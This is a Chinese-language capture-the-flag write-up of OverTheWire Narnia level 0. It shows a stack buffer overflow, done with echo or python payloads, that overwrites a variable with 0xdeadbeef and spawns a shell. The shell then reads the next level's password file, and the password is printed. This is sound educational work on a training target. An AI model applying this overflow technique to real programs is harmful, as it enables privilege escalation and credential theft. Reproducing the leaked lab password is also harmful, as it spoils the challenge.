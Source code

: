 可以使用`python -c`，或者`echo -e`(-e 表示"enable interpretation of backslash escapes")。
> The BASH shell has the ability to represent hex using the \x escape sequence, but in order for echo to parse escape sequence we have to add the -e option. Since hex values outside the ASCII range contain non-printable characters that are not easily copied and pasted, we are going to pipe the output directly to the program. This has the affect of storing our custom string into a buffer and waiting for scanf() to read it.

参考：https://hackmethod.com/overthewire-narnia-0/
```
➜  Narnia git:(master) echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde";pwd |./narnia0           [20:54:09]
AAAAAAAAAAAAAAAAAAAAﾭ�
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: /Users/caiqiqi/ctf/OverT
val: 0x41414141
WAY OFF!!!!
➜  Narnia git:(master) python -c 'print "A"*20+"\xef\xbe\xad\xde"';pwd |./narnia0              [20:54:25]
AAAAAAAAAAAAAAAAAAAAﾭ�
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: /Users/caiqiqi/ctf/OverT
val: 0x41414141
WAY OFF!!!!
```

以上不仅把shellcode作为输入传到了./narnia0, 得到了shell, 而且还加了一句pwd用来验证确实已经得到shell了。然而这样执行完命令之后，shell程序马上就关闭了。得想一个办法让shell一直开着。找了半天终于发现cat命令可以让shell保持开放。

得到shell

```
narnia0@melinda:/narnia$ ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
cat /etc/narnia_pass/narnia1
efeidiedae
```
得到narnia1的密码了
